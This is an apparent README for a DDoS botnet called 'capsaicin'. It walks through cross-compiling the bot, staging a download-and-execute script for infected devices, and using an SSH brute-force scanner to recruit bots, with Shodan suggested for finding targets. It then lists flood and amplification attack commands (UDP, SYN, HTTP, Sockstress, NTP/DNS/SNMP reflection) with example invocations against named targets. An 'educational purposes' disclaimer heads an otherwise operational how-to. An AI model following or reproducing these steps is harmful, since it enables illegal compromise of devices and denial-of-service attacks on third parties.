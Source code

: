 # --- Disclaimer ---
***I AM NOT RESPONSIBLE FOR WHAT YOU DO WITH THIS***

***THIS IS FOR EDUCATIONAL PURPOSES ONLY***

# --- Notice ---
_Make sure you do this ALL off of a VPS or VPN_


# --- Cross Compiling ---
Use cc7.py for compiling for multiple architectures. You need it compiled for mips, powerpc, superh, etc.

You'll get barely any bots with it just compiled for x86_32 and/or x86_64.

cc7.py auto setups vsftpd, tftpd, httpd, and then cross compiles.

Before you run cc7, install lighttpd since httpd can't handle as many connections.

```apt-get install lighttpd -y```

**OR**

```yum install lighttpd -y```

# --- Run cc7 ---
* ```python cc7.py capsaicin.c 1.3.3.7```

   * 1.3.3.7 would be your servers IP

* It will cross compile and give you your 'link'

* The link will be your wget, ftpget, & tftp line
  * Use this line in the infect.py scanner

* Bins.sh along with the cross compiled binaries will be in /var/www/html
   * Bins.sh is the file the scan will tell your bots to download and execute

* Once the bot starts running things, the device will then start downloading and executing the bot for each of the architectures, executing them and becoming infected

# --- Scanning ---
* Use infect.py to get bots
   * It's an ssh scanner and bruter.
   * Make sure you edit infect.py to use your wget line
     or use your bot names for dl + exec.
   * After you've changed the wget line in your infect.py, then you can scan and get bots

* You will need the paramiko module in order to run it

```apt-get install python-paramiko -y```

**OR**

```yum install python-paramiko -y```

* **Now run this:** ```python infect.py 376 B 122.3.x.x```
   * It's a decent range to get you started
   * You can use the default ranges in infect.py (LUCKY, BRAZIL, LUCKY2, etc) but you'll get botkilled really fast
   * Find ranges off of shodan.io if you need to (search for port:22)

Once your bots join they will start scanning for telnet and more will join slowly

The more bots you have, the more random ones will join faster from telnet

**To toggle the scanner off for all the bots, type:**

```!* SCANNER OFF```

**And to turn it on:**

```!* SCANNER ON```

The bot growth rate is basically exponential after a few thousand. You can get thousands online easily

# --- Attacking ---

**Non-spoof / non-root attacks:**

STD <ip> <port> <time>      = A non spoof UDP HIV STD flooder

HOLD <host> <port> <time>   = A vanilla TCP connection flooder

JUNK <host> <port> <time>   = A vanilla TCP flooder (modded)

UNKNOWN <target> <port, 0 for random> <packet size, 0 for random> <secs>  = Another non-spoof udp flooder

HTTP <method> <target> <port> <path> <time> <power> = A powerful HTTP flooder

WGETFLOOD <url> <secs>      =  An HTTP(S) flooder                                                                        

**Spoof / root attacks:**

PAN <target> <port> <secs>  = A SYN flooder                           

TCP <target> <port> <time> <flags/method> <packetsize> <pollinterval> <threads> = An advanced spoofed TCP flooder. Multithreading and xmas, usyn methods/SynthMesc.

UDP <target> <port> <secs>  = An UDP flooder                          

PHATWONK <target> <flags/method> <secs> = A leet flooder


**Server kill attacks:**                                                   

SOCKSTRESS <ip>:<port> <interface> -s <time> [-p payload] [-d delay] = Sockstress. TCP/IP stack 'exploit'. Has been known to brick servers.

BLACKNURSE <target ip> <secs> = An ICMP flooder that will crash firewalls. 

TARGA3 <ip1> [ip2] ... [-s seconds] = Targa3 attack. TCP stack fuzzer. Can attack up to 200 hosts at once. Will bypass most filters and crash old machines.


**Amplification attacks:**                                                   

NTP <target IP> <target port> <reflection file url> <threads> <pps limiter, -1 for no limit> <time> =  A DrDoS flooder using the NTP protocol

DNS <IP> <port> <reflection file url> <threads> <time> =   DNS DrDoS flooder

QUAKE3 <target IP> <target port> <reflection file url> <threads> <pps limiter, -1 for no limit> <time> =   A DrDoS flooder using the Quake3 protocol

SNMP <IP> <port> <reflection file url> <threads> <pps limiter, -1 for no limit> <time> =   SNMP DrDoS flooder. Amp(600 - 1700x)


**To run a command on all bots say:**

```!* CMD```

**Example:**

```!* STD 1.2.3.4 53 3600```

**To run a command for all bot IDs starting with A, say:**

```!A* CMD```

**Example:**

```!A* WgetFlood https://google.com/ 3600```
